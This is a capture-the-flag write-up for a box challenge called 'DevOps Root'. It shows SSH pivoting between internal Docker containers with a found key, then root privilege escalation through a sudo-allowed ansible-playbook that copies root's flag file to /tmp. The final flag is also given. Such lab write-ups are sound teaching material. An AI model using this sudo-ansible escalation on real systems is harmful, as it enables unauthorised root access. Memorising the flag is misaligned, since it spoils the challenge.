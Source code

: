 # DevOps Root

### Category

Box

### Description

Can you find the **root.txt flag** on the box ?

IP : **XXX.XX.XX.XX** (same as before)

Format : **Hero{flag}**<br>
Author : **xanhacks**

### Write up

Once you are on the gitea docker, you will find a **gitea.key**. You can find your docker internal IP with this command :

```
@jenkins $ hostname -I
172.27.0.1
```

So know you can try to log in to gitea by guessing his IP address.

```
@jenkins $ ssh git@172.27.0.2 -i gitea.key
Not working
@jenkins $ ssh git@172.27.0.3 -i gitea.key
Not working
@jenkins $ ssh git@172.27.0.4 -i gitea.key
@gitea $
```

If you do `sudo -l` you can see that you can execute `ansible-playbook` with `sudo`.
Let's create a malicious playbook.

```yaml
---
- name: Privesc
  hosts: localhost
  gather_facts: no

  tasks:
    - name: Flag
      shell: cp /root/root.txt /tmp/root.txt && chmod 777 /tmp/root.txt 
```

Now you can read the flag :)

```
@gitea $ cat /tmp/root.txt
HeroCTF{ce4e994cb477dec9b1ea876db647c562}
```

### Flag

HeroCTF{ce4e994cb477dec9b1ea876db647c562}